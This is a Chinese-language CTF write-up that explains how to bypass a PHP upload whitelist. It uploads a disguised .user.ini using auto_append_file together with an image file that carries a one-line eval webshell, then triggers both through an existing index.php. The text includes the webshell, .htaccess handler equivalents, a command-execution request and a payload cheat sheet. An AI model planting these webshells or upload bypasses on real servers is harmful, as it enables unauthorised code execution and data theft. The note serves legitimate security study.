

## 一句话概括

PHP 允许在每个目录里放一个 `.user.ini`，里面的 `auto_prepend_file` 指定一个文件，PHP 会在执行该目录（及其子目录）里**任何** PHP 脚本时，**先自动 `include` 这个文件**。于是：把木马写进一张"后缀完全合规"的图片，再用 `.user.ini` 让它在 `index.php` 执行前被包含进来 —— 图片里的 PHP 就活了。

## 本题情景与解题手法

### 题目形态

后缀白名单把 `php` / `php5` / `phtml` 全卡死了，靠"换后缀"走不通。转机在于：**`upload` 目录下本来就有一个 `index.php`**（原笔记："巧合的是这题 upload 目录下有个 index.php，所以这种方式是可以成功的"）。

需要一个"能被 PHP 主动包含"的文件来承载木马。

### 第一步：先踩一个坑 —— 忘记改文件名

初次尝试 `.user.ini` 时忘了把文件名改对，页面直接报：

```text
Fatal error: Unknown: Failed opening required 'eval.png' (include_path='.:/usr/local/lib/php') in Unknown on line 0
```

这行报错其实很"值钱"：

- `Failed opening required 'eval.png'` → **`auto_prepend_file` 确实生效了**，PHP 正拿着 `.user.ini` 里写的文件名去 `require`，只是那个文件不存在；
- `in Unknown on line 0` → 报错发生在**编译任何脚本之前**，正是"前置包含"这个阶段的特征。

**结论：配置生效，只是没上传对应的被包含文件。**

### 第二步：上传 `.user.ini`（文件名伪装后抓包改回）

先把内容写好，文件名伪装成 `.user.png` 骗过后缀校验，再抓包把文件名改成 `.user.ini`：

```ini
auto_append_file="e.png"
```

> 原笔记写的是 `auto_append_file="xxx"`，`xxx` 就是随后要上传的木马文件名（本题为 `e.png`）。`auto_append_file` 与 `auto_prepend_file` 都是"自动包含"，区别见下方原理。

### 第三步：上传图片马 `e.png`

```php
<?php @eval($_REQUEST['cmd']); ?>
```

后缀 `png` 完全合规，直接上传即可。

### 第四步：访问同目录下的 `index.php`

```http
GET /upload/index.php HTTP/1.1
Host: 靶机地址
```

此时执行链是：PHP 启动 `index.php` → 读取 `upload/.user.ini` → 按配置自动包含 `e.png` → `e.png` 里的木马被当作 PHP 执行。

### 第五步：蚁剑连接 `index.php`，找 flag

用蚁剑连接：

```text
http://靶机地址/upload/index.php
```

密码 `cmd`，即可图形化浏览文件，进而在**网页根目录**找到 `flag.php` 拿到 flag。

### 上传手法一句话总结

> 后缀白名单走不通 → **上传 `.user.ini`（`auto_append_file=e.png`）+ 上传图片马 `e.png`** → 访问**同目录已有的 `index.php`**（触发器）→ PHP 自动包含 `e.png`，图片里的木马执行 → 蚁剑连 `index.php` → 读根目录 `flag.php`。

## 原理

### 1. 为什么连的是 `index.php`，而不是 `e.png`？

这是本题最反直觉的一步。原笔记专门问了：

> 为什么成功上传被包含的 `e.png` 后，蚁剑连的是 `url/upload/index.php` 而不是 `url/upload/e.png`？

原因有两条：

1. **`e.png` 自己不会被执行**。直接访问 `e.png` 时，Nginx 按扩展名判断它是静态图片，**原样返回二进制内容**，根本不会送进 PHP 解释器。它里面的 `<?php ... ?>` 只是一串普通字节。
2. **`index.php` 才是"触发器"**。只有访问一个 `.php` 文件才会启动 PHP 解释器；解释器启动后读到 `.user.ini`，才会"顺手"把 `e.png` 包含进来执行。

换句话说：

| 访问的 URL | 谁在解释 | 结果 |
|---|---|---|
| `/upload/e.png` | Nginx（当静态文件） | 返回图片字节，木马不执行 |
| `/upload/index.php` | PHP 解释器（并自动包含 `e.png`） | 木马执行，后门可用 |
| `/upload/`（目录） | 默认由 `index.php` 处理 | 同上一行 |

因此**必须借一个 `.php` 脚本当入口**，这也是"当前目录必须得有 php 文件"这条前提的由来。

### 2. `auto_prepend_file` / `auto_append_file` 的机制

`.user.ini` 是 PHP 的**逐目录配置**文件（默认文件名 `.user.ini`，由 `user_ini.filename` 控制）。`auto_prepend_file` 的语义是：

> 在执行主脚本**之前**，先 `include` 指定文件，就好像在主脚本开头写了一行 `require('e.png');`

```php
// 等价效果（示意）
require('/var/www/html/upload/e.png');   // auto_prepend_file 插在这
// ... 这里是真正的 index.php 代码 ...
```

三个设置的区别：

| 指令 | 插入位置 | 备注 |
|---|---|---|
| `auto_prepend_file` | 主脚本**执行前** | 最常用于包含木马 |
| `auto_append_file` | 主脚本**执行后** | 原笔记本题用的是这个 |
| （普通 `include`） | 代码里手动指定 | 需要能写代码 |

**注意**：`auto_append_file` 在主脚本调用了 `exit()` / `die()` 时会失效（脚本提前结束，追加阶段不执行）。原笔记特意记了这一点。本题 `index.php` 没有 `exit`，所以两种都能用。



### 3. 生效范围：**本目录及其子目录**

PHP 执行一个脚本时，会**从该脚本所在目录开始，逐级向上一路找到 `doc_root`**，把沿途遇到的 `.user.ini` 依次应用。因此：

- `.user.ini` 放在 `upload/`，则 `upload/index.php`、`upload/sub/a.php` 都会受影响（子目录继承）；
- 它**不会**影响到上级目录的 `/var/www/html/index.php` —— 那个脚本的查找是自 `/var/www/html` 起向上，永远不会"往下"看到 `upload/`。

这解释了图上"斜向下都覆盖、平级与上级不覆盖"的形状。

### 4. `.user.ini` vs `.htaccess`

两者都能"让不能解析的文件被当作 PHP"，但作用层面完全不同：

| 对比项 | `.user.ini` | `.htaccess` |
|---|---|---|
| 作用层面 | **PHP 运行时**（php-fpm/CGI）的 per-directory ini | **Web 服务器**（Apache）的目录级配置 |
| 生效服务器 | PHP-FPM / CGI / FastCGI | 仅 Apache（需 `AllowOverride` 允许） |
| 生效范围 | 本目录及子目录，**仅对有 PHP 脚本执行的请求** | 本目录及子目录，**对所有请求** |
| 典型指令 | `auto_prepend_file` / `auto_append_file` | `AddType` / `AddHandler` / `php_value` |
| 关键限制 | `user_ini.filename` 为空、或运行在 `mod_php` 下时**不生效** | Nginx 不认；`AllowOverride None` 时被忽略 |

**哪个能用，取决于题目环境**：跑 Nginx + php-fpm 就试 `.user.ini`；跑 Apache 就试 `.htaccess`。

`.htaccess` 的等价写法（把 `.png` 也解析成 PHP）：

```apache
AddType application/x-httpd-php .png
```

或：

```apache
<FilesMatch "\.png$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

### 5. 为什么 `.user.ini` 比"改后缀"更隐蔽

| 维度 | 改后缀（`.php5` 等） | `.user.ini` |
|---|---|---|
| 木马文件后缀 | 是可疑的 `php5`/`phtml` | 可以是**一张真正的 `png`** |
| 触发文件 | 木马自己（后缀敏感） | 现有 `index.php` |
| 校验面 | 后缀黑/白名单直接卡 | `.user.ini` 是"合法配置文件"，很多站点不拦 |
| 内容特征 | 正文含 `<?php`，可能被内容检测抓 | 木马藏在图片里，图片头齐全 |

`.user.ini` / `.htaccess` 之所以常见，就在于它们**不改变木马本身的形态**，只改变"谁来解释它"—— 绕过了针对"文件后缀 / 文件内容"这一整类校验。

## 利用条件

1. **有上传点**，能把 `.user.ini` 和木马文件放进同一个 Web 目录
2. **运行环境支持 `.user.ini`**：PHP ≥ 5.3，且以 **CGI/FastCGI（php-fpm）** 方式运行（`mod_php` 下 `.user.ini` 不生效），`user_ini.filename` 未禁用
3. **同目录存在可访问的 `.php` 脚本**（本题是 `index.php`）作为"触发器"
4. **能找到落盘目录**（知道该把配置和木马放哪）

## Payload 速查

| 目的 | 内容 |
|---|---|
| 前置包含（最常用） | `.user.ini` 写 `auto_prepend_file=e.png` |
| 后置包含 | `.user.ini` 写 `auto_append_file=e.png`（脚本内有 `exit()` 时无效） |
| Apache 等价方案 | `.htaccess` 写 `AddType application/x-httpd-php .png` |
| 木马本体 | `e.png` 内容为 `<?php @eval($_REQUEST['cmd']); ?>` |
| 触发访问 | `GET /upload/index.php` 或 `GET /upload/` |

## 完整示例

`.user.ini`（文件名伪装成 `.user.png` 上传，抓包改回 `.user.ini`）：

```ini
auto_append_file="e.png"
```

`e.png`（图片马，正文即 PHP）：

```php
<?php @eval($_REQUEST['cmd']); ?>
```

上传这两个文件后访问触发器：

```http
GET /upload/index.php?cmd=system('tac ../flag.php'); HTTP/1.1
Host: 靶机地址
```

或直接用蚁剑连接 `http://靶机地址/upload/index.php`，密码 `cmd`。

## 踩坑与备注

- **报错 `Failed opening required 'eval.png'` 是很强的正向信号**：说明 `auto_prepend_file` 生效了、PHP 在找被包含文件。此时只需把文件名对上即可。
- **必须有一个 `.php` 文件被访问**：木马自身不会被解析，靠的是触发器脚本启动 PHP 后自动包含。原笔记点明"当前目录必须要有 php 文件"，本题恰好有 `index.php`。
- **连 `index.php`，不连 `e.png`**：这是本题最容易搞混的一点，原因见原理第 1 节。
- **`.user.ini` 生效在哪台机器上要实测**：`mod_php` 环境下不生效，需要 php-fpm/CGI；Nginx + php-fpm 是最常见组合。
- **`.user.ini` 文件名本身可能被拦**：原笔记的做法是先传 `.user.png` 再抓包改名，正是为了绕过针对 `.ini`/配置文件的检查。
- `auto_append_file` 遇 `exit()` 失效；不确定脚本行为时，用 `auto_prepend_file` 更稳。
